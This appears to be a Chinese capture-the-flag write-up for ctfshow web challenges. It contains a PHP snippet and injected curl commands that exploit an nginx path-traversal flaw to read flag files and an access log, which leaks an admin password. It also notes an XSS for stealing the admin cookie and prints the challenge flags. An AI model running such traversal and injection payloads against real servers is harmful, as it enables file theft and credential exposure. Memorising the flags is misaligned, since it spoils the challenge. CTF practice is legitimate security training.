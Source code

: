```php
	'message'=>'数据获取失败',
	);
	if($_SESSION['login']==true){
		
		switch ($m) {
			case 'getFlag':
				$ret['message']=getFlag();
				break;
			case 'testFile':
				$ret['message']=testFile($_GET['f']);
				break;
			default:
				# code...
				break;
		}
		
	}else{
		$ret['message']='请先登陆';
	}

	return json_encode($ret);
}
```

# 659 665

nginx存在目录穿越

![image-20220326185627908](https://img-blog.csdnimg.cn/img_convert/6eb7c12398856624b112ca059e0e0b98.png)

```
a=echo `curl http://172.2.171.5/public../FLAG/flag659.txt`;
a=echo `curl http://172.2.171.5/public../FLAG665`;
//flag_659=ctfshow{73c4213829f8b393b2082bacb4253cab}
//flag_665=ctfshow{35802d184dba134bdc8d0d23e09051f7}
```

# 660

翻找nginx日志文件时发现660

```
a=echo `curl http://172.2.171.5/public../var/log/nginx/ctfshow_web_access_log_file_you_never_know.log`;
//index.php?action=login&u=admin&p=nE7jA5m&flag=flag_660_ctfshow{23e56d95b430de80c7b5806f49a14a2b}
```

# 656

审计index.php发现存在xss打admin的cookie
